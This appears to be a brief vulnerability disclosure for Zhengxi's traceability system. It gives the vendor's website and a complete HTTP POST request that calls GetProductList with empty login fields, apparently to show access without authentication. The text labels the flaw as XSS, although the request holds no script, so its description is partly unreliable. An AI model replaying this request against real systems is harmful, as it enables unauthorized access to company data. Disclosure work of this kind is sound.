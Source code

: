 # There are unauthorized vulnerabilities in Zhengxi's traceability system

### 企业官网(Enterprise official website)：

http://www.zenrish.com/

### 危害描述(Vulnerability description)：

**XSS vulnerabilities** allow attackers to inject malicious scripts into web pages, stealing sensitive data, manipulating content, or performing unauthorized actions.

### 漏洞细节(Vulnerability details)：

```
POST /Worker/Invoke/ HTTP/1.1
Host: 
Content-Length: 73
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.93 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

MenuParentId=3&MenuId=1&Model=2&LoginId=&LoginCode=&Method=GetProductList
```

![5-1](5-1.png)

![5-2](5-2.png)

### 修复建议(Repair suggestion)：

**Remediation suggestions** include strict input validation and output encoding, using Content Security Policy (CSP) to restrict script sources, and leveraging built-in security features of modern frameworks.

